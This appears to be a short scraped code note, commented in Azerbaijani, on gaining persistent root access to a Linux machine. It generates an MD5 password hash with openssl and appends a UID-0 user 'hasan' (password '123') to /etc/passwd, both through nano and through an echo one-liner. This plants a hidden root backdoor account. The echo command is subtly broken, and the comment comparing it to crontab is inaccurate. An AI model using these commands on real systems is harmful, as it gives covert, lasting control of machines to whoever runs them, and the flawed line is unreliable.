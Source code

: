     nano  /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       
    hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash
   
 


  
   ## sen artiq ROOT'SAN
# The working mechanism of this is very similar to crontab
echo "hasan:\$1\$hasan$BUMdh4tI4WdCuFkBJI64T:0:0:root:/root:/bin/bash
" >> /etc/passwd
